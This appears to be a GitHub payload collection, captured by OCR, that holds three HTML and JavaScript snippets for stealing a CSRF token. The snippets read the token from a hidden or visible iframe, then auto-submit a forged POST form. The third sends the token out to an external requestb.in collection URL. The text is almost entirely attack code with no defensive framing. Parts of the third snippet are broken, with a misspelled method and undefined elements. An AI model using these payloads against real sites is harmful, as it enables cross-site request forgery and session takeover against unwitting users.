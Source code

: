 # Steal CSRF Token and send a Post request using an iframe, a form and Ajax

              <form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
              <input type="text" name="username" value="AA">
              <input type="checkbox" name="status" checked="checked">
              <input id="token" type="hidden" name="token" value="" />
              </form>

              <script type="text/javascript">
              function f1(){
                  x1=document.getElementById("i1");
                  x1d=(x1.contentWindow||x1.contentDocument);
                  t=x1d.document.getElementById("token").value;

                  document.getElementById("token").value=t;
                  document.getElementById("form1").submit();
              }
              </script> 
              <iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>


# Steal CSRF Token and sen a POST request using an iframe and a form

              <iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

              <script> 
              function read()
              {
                  var name = 'admin2';
                  var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
                  document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
                  document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
                  document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
                  document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
                  document.writeln('</form>');
                  document.forms[0].submit.click();
              }
              </script>


# Steal token and send it using 2 iframes

                  <script>
                  var token;
                  function readframe1(){
                    token = frame1.document.getElementById("profile").token.value;
                    document.getElementById("bypass").token.value = token
                    loadframe2();
                  }
                  function loadframe2(){
                    var test = document.getElementbyId("frame2");
                    test.src = "http://requestb.in/1g6asbg1?token="+token;
                  }
                  </script>
